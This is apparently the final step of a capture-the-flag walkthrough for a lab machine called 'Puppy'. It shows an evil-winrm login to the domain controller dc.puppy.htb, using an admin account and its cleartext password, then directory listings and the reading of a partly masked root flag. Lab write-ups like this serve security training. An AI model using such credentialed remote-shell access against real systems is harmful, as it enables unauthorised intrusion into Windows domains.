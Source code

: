 ```
~$ evil-winrm -i dc.puppy.htb -u steph.cooper_adm -p 'FivethChipOnItsWay2025!'  
                                        
Evil-WinRM shell v3.7
                                                                   
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users> dir

    Directory: C:\Users

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          3/3/2025   8:26 AM                adam.silver
d-----         3/11/2025   9:14 PM                Administrator
d-----          3/8/2025   8:52 AM                ant.edwards
d-r---         2/19/2025  11:34 AM                Public
d-----          3/8/2025   7:40 AM                steph.cooper
d-----         5/31/2025   7:19 PM                steph.cooper_adm

*Evil-WinRM* PS C:\Users\Administrator> dir

    Directory: C:\Users\Administrator

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-r---         2/19/2025  11:34 AM                3D Objects
d-r---         2/19/2025  11:34 AM                Contacts
d-r---         5/12/2025   7:34 PM                Desktop
d-r---          3/9/2025   8:22 PM                Documents
d-r---         3/23/2025  12:13 AM                Downloads
d-r---         2/19/2025  11:34 AM                Favorites
d-r---         2/19/2025  11:34 AM                Links
d-r---         2/19/2025  11:34 AM                Music
d-r---         2/19/2025  11:34 AM                Pictures
d-r---         2/19/2025  11:34 AM                Saved Games
d-r---         2/19/2025  11:34 AM                Searches
d-r---         2/19/2025  11:34 AM                Videos

*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir

    Directory: C:\Users\Administrator\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         5/31/2025   6:33 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
3b13************************ac56

```
